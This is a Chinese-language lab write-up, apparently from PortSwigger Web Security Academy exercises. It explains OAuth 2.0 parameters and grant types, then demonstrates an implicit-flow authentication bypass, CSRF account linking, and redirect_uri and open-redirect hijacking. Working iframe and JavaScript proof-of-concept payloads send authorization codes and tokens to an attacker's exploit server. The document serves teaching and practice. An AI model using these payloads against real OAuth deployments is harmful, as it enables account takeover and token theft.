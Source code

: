 ## 记 OAuth2.0攻击

#### 0x00 OAuth2.0 参数剖析

**response_type：**code 表示要求返回授权码，token 表示直接返回令牌

**client_id：**客户端身份标识

**client_secret：**客户端密钥

**redirect_uri：**重定向地址

**scope：**表示授权的范围，read只读权限，all读写权限

**grant_type：**表示授权的方式

- AUTHORIZATION_CODE（授权码）

- password（密码）

- client_credentials（凭证式）

- refresh_token 更新令牌

------

#### 0x01 OAuth2.0 四种授权模式

- ###### 授权码（authorization-code）

  ![image-20220520175710334](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520175710334.png)

- ###### 隐藏式（implicit）

  ![image-20220520175941184](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520175941184.png)

- ###### 密码式（password）

  ![image-20220520180010086](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520180010086.png)

- ###### 客户端凭证（client credentials）

  ![image-20220520180048200](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520180048200.png)

------

#### 0x02 0Auth2.0 隐藏式身份验证绕过

**请求授权**

![image-20220520181246682](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520181246682.png)

**同意授权获得token，通过token获取cookie**

![image-20220520181517199](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520181517199.png)

**漏洞点/绕过点：**修改其它用户的邮箱，也能成功获得其它用户的cookie

![image-20220520181546600](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520181546600.png)

**通过Burpsuite->Repeat request in browser校验**

![image-20220520181805499](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520181805499.png)

![image-20220520182652158](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520182652158.png)

------

#### 0x03 OAuth2.0 CSRF接管

**简单描叙一个功能点：**有点类似于绑定其它登录方式 或 绑定其它乱七八糟功能，绑定通过OAuth授权，如下图**Attach a social profile**，绑定其它社交信息

![image-20220520184150255](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520184150255.png)

**点击绑定其它社交信息跳转到正常登录，登录后正常授权抓包**

![image-20220520184253580](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520184253580.png)

![image-20220520184408228](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520184408228.png)

**漏洞点：**生成一个code，用于绑定指定用户，**假设cookie是管理员的cookie，构造CSRF Poc html发送给管理员，则管理员就会绑定我们的账号**

![image-20220520184718526](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220520184718526.png)

构造**CSRF Poc html：**

```html
<iframe src="https://acc61f971eacf531c00b3d7f0064002d.web-security-academy.net/oauth-linking?code=VQwmD2XBVMCDgyjbMAgkt4zuQvUtkO_quJe-EKSC2OL"></iframe>
```

**发送给管理员点击后,选择其他社交方式登录重新登录一下**

![image-20220521143909043](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521143909043.png)

------

#### 0x04 OAuth2.0 redirect_uri钓鱼导致账户劫持

**功能点：**正式登录授权后，退出登录，再次登录会自动授权

**漏洞点：**redirect_url未设置白名单导致可控，带着授权码访问到指定域

![image-20220521151508050](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521151508050.png)

**构造POC:**发送给管理员钓鱼，redirect_uri设置为自己的服务器，或ceye

```
<iframe src="https://oauth-aca11f751fccbbe0c0f08e24022a0007.web-security-academy.net/auth?client_id=ghi5v1pgoqqo7fhx1q8ko&redirect_uri=https://exploit-ac091fa21fdfbbafc02a8ee801370068.web-security-academy.net/exploit&response_type=code&scope=openid%20profile%20email"></iframe>
```

查看日志，当管理员点击后，授权码将会被记录到Web日志中

![image-20220521151849006](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521151849006.png)

退出账号，替换管理员的授权码重新登录

![image-20220521151919680](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521151919680.png)

完成账户劫持

![image-20220521151938203](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521151938203.png)

------

#### 0x05 OAuth2.0 重定向漏洞组合拳劫持管理员账户

与0x04漏洞原理一致，但是这边做了白名单限制，更贴近了实战

![image-20220521155829461](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521155829461.png)

**同站点重定向漏洞：**

![image-20220521155925890](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521155925890.png)

**组合拳：**利用重定向漏洞与目录穿越达到跳转，绕过白名单，既

`https://ac3f1f6b1fbafb3cc068038b00b400ed.web-security-academy.net/oauth-callback/../post/next?path=https://www.baidu.com`

**构造Poc：**

```
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-ac7f1fae1f27fb30c0ea0380028500a8.web-security-academy.net/auth?client_id=p9pdffs4rjxs88th8i9de&redirect_uri=https://ac3f1f6b1fbafb3cc068038b00b400ed.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-ac5a1fb91fbcfb5fc06d0382015d00cf.web-security-academy.net/exploit&response_type=token&nonce=1467868674&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

**查看日志：**成功打到了token

![image-20220521160152887](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521160152887.png)

利用token登录admin

![image-20220521160214012](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220521160214012.png)

#### 

